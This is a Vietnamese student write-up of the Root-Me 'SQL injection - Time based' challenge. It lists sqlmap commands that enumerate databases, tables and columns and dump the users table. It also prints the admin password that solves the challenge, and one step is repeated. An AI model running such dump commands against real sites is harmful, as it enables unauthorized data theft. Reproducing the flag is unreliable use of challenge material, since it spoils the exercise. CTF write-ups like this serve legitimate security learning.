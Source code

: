 # Challenge: SQL injection - Time based 
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based


- Ban đầu vào thì thử thách cho chúng tra 2 trang, một trang login và một trang member
<p align="center"><img src="./images/10.1.png"></p>
<p align="center"><img src="./images/10.2.png"></p>
<p align="center"><img src="./images/10.3.png"></p>

- Bài này thử với lỗi ở union ở member tuy nhiên ta không thể nhìn thấy được nó
- Đọc bài tham khảo được đính kèm trong challenge bài này nói về `Time-Based Blind SQL 
Injection`, ta thử tìm hiểu thêm về nó trên google
<p align="center"><img src="./images/10.4.png"></p>

- OK, bài tham khảo thì hướng dẫn dùng Heavy Queries để attack lỗi này, ta dùng hẳn luôn công cụ sql 
https://bmacharia.com/2021/06/07/exploiting-time-based-blind-sql-injection-with-sqlmap/

- Để lấy thông tin các database ta dùng
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --dbs

<p align="center"><img src="./images/10.5.png"></p>
<p align="center"><img src="./images/10.6.png"></p>

- Khi đó ta thấy rằng có 1 database là `public`, tiếp tục ta liệt kê các bảng có trong database public
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public --tables
<p align="center"><img src="./images/10.7.png"></p>

- Có 1 bảng users, ta tiếp tục liệt kê các cột có trong bảng table 
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public -T users --columns
<p align="center"><img src="./images/10.8.png"></p>

- Có 1 bảng users, ta tiếp tục liệt kê các cột có trong bảng table 
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public -T users --columns
<p align="center"><img src="./images/10.8.png"></p>
--> password, username, id


- Hiển thị username, password có trong bảng users:
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public -T users -C id,usermame,password --dump
<p align="center"><img src="./images/10.9.png"></p>

--> trường username trống, ta kết hợp với thông tin output từ màn hình dựa trên id
<p align="center"><img src="./images/10.3.png"></p>

```
username: admin
password: T!m3B@s3DSQL!
```

## Kết quả password là `T!m3B@s3DSQL!`